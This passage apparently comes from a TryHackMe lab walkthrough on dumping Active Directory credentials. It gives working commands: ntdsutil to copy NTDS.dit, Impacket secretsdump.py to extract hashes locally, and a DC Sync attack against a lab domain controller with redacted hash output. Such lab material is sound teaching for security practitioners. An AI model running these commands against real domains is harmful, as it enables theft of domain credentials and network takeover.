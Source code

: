 - **Dumping the content of the NTDS file from the Victim Machine**

```shell-session
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```

Now, if we check the `c:\temp` directory, we see two folders: Active Directory and registry, which  contain the three files we need. Transfer them to the AttackBox and run  the secretsdump.py script to extract the hashes from the dumped memory  file.

- **Extract hashes from NTDS Locally**

```shell-session
user@machine$ python3.9 /opt/impacket/examples/secretsdump.py -security path/to/SECURITY -system path/to/SYSTEM -ntds path/to/ntds.dit local
        
```

### Remote Dumping (With Credentials)

In the previous section, we discussed how to get hashes from memory with no credentials in hand. In this task, we will be showing how to dump a system and domain  controller hashes remotely, which requires credentials, such as  passwords or NTLM hashes. We also need credentials for users with  administrative access to a domain controller or special permissions as  discussed in the DC Sync section.

### DC Sync

The DC Sync is a popular attack to perform within an Active Directory  environment to dump credentials remotely. This attack works when an  account (special account with necessary permissions) or AD admin account is compromised that has the following AD permissions:

- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered Set

An adversary takes advantage of these configurations to perform domain replication, commonly referred to as "DC Sync", or Domain Controller Sync. For more  information about the DC Sync attack, you can visit the THM [Persisting AD](https://tryhackme.com/room/persistingad) room (Task 2).

The Persisting AD room uses the Mimikatz tool to perform the DC  Synchronisation attack. Let's demonstrate the attack using a different  tool, such as the Impacket SecretsDump script. 

- **Performing the DC Sync Attack**

```shell-session
user@machine$ python3.9 /opt/impacket/examples/secretsdump.py -just-dc THM.red/<AD_Admin_User>@10.10.162.92 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:[****REMOVED****]:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:[****REMOVED****]:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:[****REMOVED****]:::
thm.red\thm:1114:aad3b435b51404eeaad3b435b51404ee:[****REMOVED****]:::
        
```
